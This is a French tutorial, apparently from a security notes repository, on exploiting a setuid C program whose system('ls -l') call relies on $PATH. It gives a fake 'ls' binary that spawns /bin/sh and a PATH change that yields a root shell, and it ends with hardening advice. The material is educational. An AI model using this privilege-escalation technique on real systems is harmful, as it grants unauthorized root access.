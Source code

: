 # System()

## I. Introduction
La fonction `system()` de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer, `system()` utilise la variable d'environnement `$PATH`. Il suffit donc d'agir sur cette variable pour faire executer à `system` le mauvais programme.

## II. Pré-requis
* Un programme suid
* L'argument de `system()` n'est pas un chemin absolu.


```{r, engine='bash'}
aas@ubuntu:~$ cat vuln.c
void main()
{
  system("ls -l");
}
```

Le comportement normal de ce programme est le suivant. Notons le suid activé.


```{r, engine='bash'}
aas@ubuntu:~$ ./vuln
total 48
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
-rws--x--x 1 root root 8600 sept. 16 10:07 vuln
-rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 
```

## III. Exploitation
### Création d'un faux programme 'ls' ouvrant un shell.
```{r, engine='bash'}
aas@ubuntu:~$ cat exploit.c 
void main()
{
  char *shell[] = {"/bin/sh",NULL};
  execve(shell[0],shell,NULL);
}
aas@ubuntu:~$ gcc exploit.c -o ls
```


### Modification de $PATH

```{r, engine='bash'}
aas@ubuntu:~$ PATH=.:$PATH
```
On ajoute le repertoire contenant notre faux programme `ls` en première position de la variable `$PATH`

### Execution
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln 
# whoami
root
```
Pour executer `ls`, `system()` cherche en premier dans notre repertoire courant au lieu de `/bin/`, lance notre faux `ls`, qui lance un shell root puisque notre programme `vuln` est suid.
    
## IV. Sécurisation
Mettre le chemin absolue avec `system()` est dangereux malgré tout puisqu'il est possible d'utiliser la faille IFS sur certains "anciens" noyaux.  
Il faut donc utiliser les fonctions type `execve()` et bannir `System()`.

